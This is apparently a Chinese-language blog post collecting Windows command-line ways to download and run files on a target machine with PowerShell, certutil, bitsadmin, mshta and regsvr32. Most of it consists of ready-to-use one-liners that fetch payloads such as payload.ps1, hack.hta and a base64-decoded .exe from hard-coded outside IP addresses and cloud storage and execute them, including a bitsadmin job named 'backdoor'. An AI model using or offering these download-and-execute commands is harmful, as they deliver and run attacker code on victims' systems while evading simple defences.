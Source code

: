 ```yaml
---
layout: post
title: 命令行文件下载-Windows篇(长期更新)
---
```


> *文章长期更新，此文收集总结了Windows下 下载文件的各种姿势，对目标表进行文件的落地（或无落地）*

---

[TOC]

# 0x01 PoweShell

`win2003，winXP`不支持

踩坑

- Powershell 版本大于`2.0`时 在连接两个命令时 用 **空格** 替换了 `;`
- Powershell 等于`2.0`时 `DownloadFile()`函数不支持自定义保存路径 文件默认保存在`C:\Users\当前用户名` 下![image-20200403122054016](https://tva1.sinaimg.cn/large/00831rSTly1gdggmdhh09j311w0ecdit.jpg)![image-20200403121710725](https://tva1.sinaimg.cn/large/00831rSTly1gdggiiv0ndj30mo0f040i.jpg)



不指定保存路径兼容性更高


```powershell
powershell (new-object System.Net.WebClient).DownloadFile('http://47.92.194.173/test.txt', '1.bat');start-process '1.bat'
```

指定路径（Windows7以上适用）

```powershell
powershell (new-object System.Net.WebClient).DownloadFile('http://47.92.194.173/test.txt', '%temp%\1.bat');start-process '%temp%\1.bat'
```

`%temp%`指当前登陆用户的临时目录

powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('https://ottoknown.oss-cn-qingdao.aliyuncs.com/payload.ps1')"

TYPE payload.ps1 | PowerShell -noprofile -

---

# 0x02 Certutil

Path

- C:\Windows\System32\certutil.exe
- C:\Windows\SysWOW64\certutil.exe

踩坑

- 低版本certutil不支持指定下载的目录，为了兼容性可以直接在当前目录操作

```php
certutil -urlcache -split -f http://172.16.111.182/url.txt&ren url.txt 1.bat&1.bat
或者
certutil -urlcache -split -f http://172.16.111.182/url.txt %temp%\1.bat&%temp%\1.bat
```

Certutil也支持base64加解密以及16进制解密

![image-20200403165312327](https://tva1.sinaimg.cn/large/00831rSTly1gdgohpx2oaj30lu052wfb.jpg)

```php
certutil -urlcache -split -f http://47.92.194.173/test.bs4 %temp%\1.bs4&certutil -decode %temp%\1.bs4 %temp%\1.exe&%temp%\1.exe
```

---

# 0x03 bitsadmin

Path:

- C:\Windows\System32\bitsadmin.exe
- C:\Windows\SysWOW64\bitsadmin.exe

踩坑：

- 在Windows7或某些版本的Windows10上会运行失败 出现以下报错

  > BITSAdmin is deprecated and is not guaranteed to be available in future versions
  > of Windows.
  >
  > BITSAdmin已弃用，并且不能保证在将来的Windows版本中可用。
  >
  > Administrative tools for the BITS service are now provided by BITS PowerShell cm
  > dlets.
  >
  > BITS PowerShell cmdlet现在提供了BITS服务的管理工具

  



```python
bitsadmin /transfer n http://github.com/3gstudent/test/raw/master/putty.exe c:\a.exe && c:\a.exe

bitsadmin /create 1 bitsadmin /addfile 1 http://47.92.194.173/test.txt c:\autoruns.bat bitsadmin /RESUME 1 bitsadmin /complete 1

bitsadmin /create 1 bitsadmin /addfile 1 http://47.92.194.173/test.txt C:\Program Files (x86)\1.bat bitsadmin /RESUME 1 bitsadmin /complete 1



bitsadmin /rawreturn /transfer getfile http://47.92.194.173/test.txt C:\Program Files\1.bat



bitsadmin /transfer myDownLoadJob /download /priority normal "http://47.92.194.173/test.txt" "C:\Program Files (x86)\1.bat"

bitsadmin /transfer backdoor http://47.92.194.173/test.txt C:\Program Files\1.bat

DISPLAY: '任务名' TYPE: DOWNLOAD STATE: TRANSFERRED PRIORITY: NORMAL FILES: 1 / 1 BYTES: 11392 / 11392 (100%) Transfer complete

默认情况下bitsadmin下载速度极慢，下载较大文件需要设置优先级提速，以下是用法示例：

\#下载filezilla FTP客户端，任务名是333 start bitsadmin /transfer 333 http://dwz.cn/fffftp c:\333.exe #设置任务333为最高优先级 bitsadmin /setpriority 333 foreground

bitsadmin 可以在网络不稳定的状态下下载文件，出错会自动重试，可靠性应该相当不错。
bitsadmin 可以跟随URL跳转.
bitsadmin 不像CURL WGET 这类工具那样能用来下载HTML页面。

bitsadmin 权限问题待解决

bitsadmin已经在win7 win10 win2008 不可用
```

---

# 0x04 mshta

mshta http://47.92.194.173/hack.hta 支持短网址

http://suo.im/5VA0Ut





regsvr32 /u /s /i:http://47.92.194.173/test1.sct scrobj.dll